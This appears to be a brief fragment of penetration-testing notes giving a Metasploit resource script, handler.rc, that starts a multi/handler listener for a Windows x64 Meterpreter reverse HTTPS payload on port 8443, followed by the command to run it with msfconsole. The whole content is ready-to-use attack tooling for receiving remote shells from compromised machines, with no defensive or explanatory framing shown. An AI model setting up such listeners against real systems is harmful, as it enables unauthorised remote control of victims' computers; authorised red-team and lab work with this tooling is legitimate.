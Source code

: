 `HANDLER.RC scripts`
```shell-session
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST <our_ip>
set LPORT 8443
exploit
```


`sudo msfconsole -r handler.rc`
